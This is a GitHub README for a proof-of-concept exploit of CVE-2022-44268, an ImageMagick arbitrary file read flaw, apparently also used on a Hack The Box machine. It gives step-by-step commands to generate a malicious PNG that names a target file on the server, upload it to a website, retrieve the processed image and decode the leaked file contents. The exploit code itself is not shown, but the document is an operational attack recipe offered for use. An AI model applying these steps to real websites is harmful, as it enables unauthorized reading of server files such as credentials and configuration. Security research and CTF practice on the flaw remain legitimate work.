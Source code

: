 # ImageMagick-lfi-poc
### ImageMagick Arbitrary Read Files - CVE-2022-44268

also used in htb pilgrimage

## ImageMagick LFI PoC [CVE-2022-44268]


The researchers at [MetabaseQ](https://www.metabaseq.com/imagemagick-zero-days/) discovered CVE-2022-44268, i.e. ImageMagick 7.1.0-49 is vulnerable to Information Disclosure. When it parses a PNG image (e.g., for resize), the resulting image could have embedded the content of an arbitrary remote file (if the ImageMagick binary has permissions to read it).



Step 1 :

run

```
pip install pillow
sudo apt install graphicsmagick-imagemagick-compat
```

Step 2 ;

run

```
python3 magick_exploit.py generate -l [local_file] -o [output_file]
```

step 3 :

upload the image file on the website

step 4 :

get he converted image file from the website.
name it as 'downloaded_image.png'

step 5:

run 

```
python3 decode_profile.py
```

![](20230723122440.png)


## Credits

1. https://github.com/adhikara13/CVE-2022-44268-MagiLeak
2. https://github.com/Sybil-Scan/imagemagick-lfi-poc


